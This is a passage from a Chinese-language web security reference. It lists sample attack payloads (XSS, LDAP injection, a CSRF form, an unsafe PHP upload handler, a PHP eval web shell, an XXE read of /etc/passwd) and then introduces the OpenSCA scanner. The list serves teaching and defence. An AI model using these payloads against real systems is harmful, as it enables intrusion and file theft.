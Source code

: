 ```text
- Cookie 劫持漏洞：<script>alert(document.cookie)</script>
- 参数污染漏洞：<a href="http://example.com/?foo=bar&baz=qux">
- 输入验证不足：<input type="text" value="><script>alert('XSS')</script>">
- LDAP 注入：(&(uid=hacker)(password=*))
- LDAP 注入：*)(|(cn=*))(|(cn=*
- CSRF 注入：
<form action="https://www.example.com/transfer" method="POST">
  <input type="hidden" name="from" value="hacker@example.com">
  <input type="hidden" name="to" value="victim@example.com">
  <input type="hidden" name="amount" value="1000000">
  <input type="submit" value="Transfer">
</form>
- 文件上传注入：
<?php
  $filename = $_FILES['file']['name'];
  $tmpname = $_FILES['file']['tmp_name'];
  $extension = pathinfo($filename, PATHINFO_EXTENSION);
  $allowed_extensions = array("jpg", "jpeg", "png", "gif");

if (!in_array($extension, $allowed_extensions)) {
echo "Invalid file type";
exit;
}

move_uploaded_file($tmpname, "uploads/" . $filename);
?>
- 代码注入：
<?php eval($_GET['cmd']); ?>
- XML 外部实体注入（XXE，XML External Entity Injection）：
<!DOCTYPE foo [  
<!ELEMENT foo ANY >  
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

## 5. 安全工具

### OpenSCA

[OpenSCA 官网](https://opensca.xmirror.cn/)  
OpenSCA 作为悬镜安全旗下源鉴 OSS 开源威胁管控产品的开源版本，继承了源鉴 OSS 的多源 SCA 开源应用安全缺陷检测等核心能力，通过软件成分分析、依赖分析、特征分析、引用识别、合规分析等方法，深度挖掘组件中潜藏的各类安全漏洞及开源协议风险。  
OpenSCA（Software Composition Analysis）是一款开源的软件成分分析工具，用来扫描项目的第三方开源组件依赖及漏洞信息。

[下载 OpenSCA](https://gitee.com/XmirrorSecurity/OpenSCA-cli/releases)  
```
执行命令
opensca-cli -path ${project_path} -out output.json  
```

### SQLMap
